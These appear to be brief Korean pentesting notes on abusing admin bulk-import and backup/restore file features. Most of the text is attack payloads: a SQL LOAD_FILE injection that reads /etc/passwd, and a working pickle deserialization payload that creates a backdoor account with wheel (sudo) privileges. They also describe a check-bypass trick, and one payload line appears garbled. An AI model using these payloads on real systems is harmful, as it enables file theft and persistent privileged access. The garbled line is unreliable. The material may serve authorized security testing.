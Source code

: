# Integrity Verification

관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나
특정 설정을 백업/복구하는 기능이 있을 경우
해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  
  
SELECT LOAD_FILE('/etc/passwd'); --  
(sql과 관련된 파일이 있을 경우)
--------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
